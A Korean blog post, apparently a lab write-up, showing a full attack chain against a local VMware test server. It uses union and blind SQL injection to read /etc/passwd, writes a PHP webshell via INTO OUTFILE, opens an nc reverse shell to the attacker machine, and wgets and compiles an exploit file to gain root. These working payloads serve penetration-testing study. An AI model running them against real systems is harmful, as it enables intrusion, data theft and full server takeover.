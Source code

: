 ```yaml
---
title: "SQL Injection 공격 실습"
categories:
  - Web
tags:
  - Web hacking
  - SQL Injection
  - netcat
  - webshell
comments: true
---
```


SQL Injection 공격을 통해 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 실습 환경설정
> 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)
> 3. MYSQL 권한으로, webshell 생성하기
> 4. nc 를 통한 reverse connection
> 5. exploit code 업로드 및 실행을 통한 권한상승


# 1. 실습 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1

<center><p><img src="/assets/2019-01-28-post-web_sql/1.1.jpg"><br>
<em>vmwware 설정</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/1.2.png"><br>
<em>공격대상 서버 URL : 10.10.10.10/test/</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/1.3.png"><br>
<em>서비스 계정(id : test, pw : test)</em></p></center>

# 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection)

<center><p><img src="/assets/2019-01-28-post-web_sql/2.png"><br>
<em>서비스 계정(id : test, pw : test)</em></p></center>

로그인 이후, FREE BOARD, **USER BOARD(취약점 존재)**, Q&A BOARD, SERVICE BOARD 등 게시판에서 취약점이 있는지 여부를 확인한다.


## 2.1. Blind SQL Injection
<p>
10.10.10.10/test/board.php?no=1 and 1=1 (TRUE)
10.10.10.10/test/board.php?no=1 and 1=0 (FALSE)
위 둘의 URL 실행결과가 다른 것을 통해 SQL Injection 공격 취약점이 존재하는 것을 파악할 수 있다.
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.1.png"><br>
<em>[10.10.10.10/test/board.php?no=1 and 1=1 결과화면]</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.2.png"><br>
<em>[10.10.10.10/test/board.php?no=1 and 1=0 결과화면]</em></p></center>

## 2.2. Union SQL Injection

> 컬럼개수 파악하기
<p>
http://10.10.10.10/test/board.php?no=0 order by 1 --
http://10.10.10.10/test/board.php?no=0 order by 2 --
~
http://10.10.10.10/test/board.php?no=0 order by 8 -- 까지는 에러가 안뜬다.
http://10.10.10.10/test/board.php?no=0 order by 9 -- 부터 에러가 뜬다.  그러므로, 컬럼은 총 8개이다.
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.1.png"><br>
<em></em></p></center>


> 각각의 컬럼 위치 확인하기
<p>
http://10.10.10.10/test/board.php?no=0 union select 1,2,3,4,5,6,7,8 --
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.2.png"><br>
<em></em></p></center>


> Title 부분에 계정정보 출력하기
<p>
http://10.10.10.10/test/board.php?no=0 union select 1, load_file('/etc/passwd'),3,4,5,6,7,8 --
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.3.png"><br>
<em></em></p></center>


# 3. MYSQL 권한으로, webshell 생성하기

> MYSQL 권한으로 Webshell 생성

<div class="notice">
<p>
http://10.10.10.10/test/board.php?no=0 union select 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7,8 into outfile"/usr/local/apache/htdocs/test/shell.php" --
</p>
</div>

<center><p><img src="/assets/2019-01-28-post-web_sql/3.1.png"><br>
<em></em></p></center>

> Webshell 동작 확인

<p>
http://10.10.10.10/test/shell.php?cmd=ls
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.1.png"><br>
<em></em></p></center>

<p>
http://10.10.10.10/test/shell.php?cmd=ls  (nobody 권한인 것을 확인할 수 있다.)
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.2.png"></p></center>

# 4. nc 를 이용한 reverse connection

> 공격자 PC 에서 nc 실행 후, 응답대기

cmd 창 2개 생성
- cmd_1 : nc -l -p 33333, nc 프로그램이 33333 번 포트로 응답대기(33333번 포트는 임의로 설정)
- cmd_2 : netstat -na, 33333 포트가 응답대기인지 확인(프로그램이 제대로 실행되었는지 확인)
<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.1.png"></p></center>

> Web 에서 nc 실행하여, 공격 대상 서버 -> 공격자 PC 로 연결 (reverse connection)

<p>
10.10.10.10/test/shell.php?cmd=nc -e /bin/sh 10.10.10.1 33333 (10.10.10.1 은 공격자 PC ip 주소)
다음과 같이 탭에서 계속 돌고 있는 상황이면 정상적으로 실행이 된 것이다.
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/4.2.png"></p></center>

> 연결확인

cmd_1 : id (계정정보 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.3.png"></p></center>


# 5. exploit code 업로드 및 실행을 통한 권한상승

> wget 을 통한 익스플로잇 코드 업로드

<p>
공격자 소유의 서버(10.10.10.20)에 있는 exploit code 를, 공격대상이 되는 서버에서 다운로드 하도록 한다. 
10.10.10.10/test/shell.php?cmd=wget http://10.10.10.20/exp.c
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/5.1.png"></p></center>

> Webshell 에서 exp.c 다운로드 확인

10.10.10.10/test/shell.php?cmd=ls -al
<center><p><img src="/assets/2019-01-28-post-web_sql/5.2.png"></p></center>

> NC 를 통해 (cmd_1)에서 확인
<center><p><img src="/assets/2019-01-28-post-web_sql/5.3.png"></p></center>

>  exploit code 컴파일 후 실행을 통한 권한상승

`1) gcc -o exp exp.c`
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.1.png"></p></center>

`2) ls -al`
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.2.png"></p></center>

`3) ./exp  ,  id`
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.3.png"></p></center>


이상으로 SQL Injection 공격을 이용한 root 권한 획득에 대해 알아보았다.

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}

